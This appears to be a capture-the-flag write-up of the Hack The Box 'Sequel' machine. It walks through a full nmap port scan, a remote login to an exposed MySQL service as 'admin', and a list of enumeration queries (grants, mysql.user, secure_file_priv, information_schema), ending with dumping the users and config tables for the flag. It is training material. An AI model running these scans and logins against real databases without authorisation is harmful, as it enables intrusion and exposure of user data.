



Scanning the target
I began with a full TCP port scan to identify the services exposed by the target. Rather than limiting the scan to common ports, I scanned the complete TCP port range to avoid overlooking services running on non-standard ports.
nmap -p- <TARGET_IP>
Full TCP port enumeration revealing MySQL exposed on port 3306.
Port 3306 was open and running a MySQL-compatible database service. This made the database server the primary attack surface for further enumeration.
Connecting to the database
With MySQL exposed on port 3306, I tested whether the database service accepted remote connections. The standard MySQL client can be used to connect directly to a remote server by specifying the host, port, and username.
mysql -h <SERVER_IP> -P 3306 -u admin -p
Connecting to the exposed MySQL service using the MySQL client.
Remote MySQL connection
The same connection pattern can be used when connecting to another MySQL server remotely:
mysql -h 203.0.113.10 -P 3306 -u admin -pTLS-enabled connections
Some MySQL deployments require encrypted client connections. In those cases, the client can be instructed to require TLS:
mysql -h SERVER_IP -P 3306 -u USERNAME -p --ssl-mode=REQUIREDEnumerating the MySQL server
After obtaining access to the database server, I began enumerating the available information. Database enumeration is useful for understanding the server version, current account, available databases, tables, permissions, and other configuration details.
Server information
SELECT VERSION();
SELECT @@version_comment;
SELECT @@hostname;
SELECT @@port;Current user and privileges
SELECT USER(), CURRENT_USER();
SHOW GRANTS;List databases
SHOW DATABASES;Select a database and inspect it
USE database_name;
SHOW TABLES;Enumerate table structure
DESCRIBE table_name;
SHOW COLUMNS FROM table_name;Enumerate database users
If sufficient privileges are available, the mysql.user table can provide information about database accounts and their allowed hosts.
SELECT user, host FROM mysql.user;Check permissions
SHOW GRANTS FOR CURRENT_USER();Enumerate server variables
SHOW VARIABLES;Some particularly useful variables during a security assessment include:
SHOW VARIABLES LIKE 'secure_file_priv';
SHOW VARIABLES LIKE 'datadir';
SHOW VARIABLES LIKE 'version%';Enumerate plugins
SHOW PLUGINS;Find accessible schemas and tables
SELECT table_schema, table_name
FROM information_schema.tables
ORDER BY table_schema, table_name;Count rows in tables
SELECT table_schema, table_name, table_rows
FROM information_schema.tables;Stored procedures and events
SHOW PROCEDURE STATUS;
SHOW FUNCTION STATUS;
SHOW EVENTS;Check the current role
SELECT CURRENT_ROLE();Enumerating application data
After identifying the available databases and tables, I focused on the application database. The htb database contained a users table, making it an important target for further enumeration.

Enumerating the HTB database and querying the users table.
USE htb;
SHOW TABLES;
SELECT * FROM users;The htb database contained a users table with application data accessible through the database account.
Retrieving the flag
I continued enumerating the tables within the htb database. A config table was identified and contained the information required to complete the machine.
SHOW TABLES;
SELECT * FROM config;
Querying the config table and retrieving the machine flag.
The exposed database and accessible application tables provided direct access to the flag, completing the Sequel machine.
Lessons from Sequel
Sequel reinforced the importance of enumerating every exposed service rather than assuming that only web services represent an attack surface. A database listening directly on the network can provide a significant amount of information when remote access is permitted.
Once access was obtained, systematic database enumeration was more valuable than immediately searching for an exploit. Identifying databases, tables, users, permissions, and configuration data made it possible to understand what information was accessible and where the flag was stored.
Tools used
The main tools and techniques used during the exercise were:
- Nmap — full TCP port enumeration
- MySQL Client — remote database connection
- SQL — database and table enumeration
- information_schema — schema and table discovery
Related resources
The resources below cover the machine itself and the network enumeration and MySQL database techniques used throughout the exercise.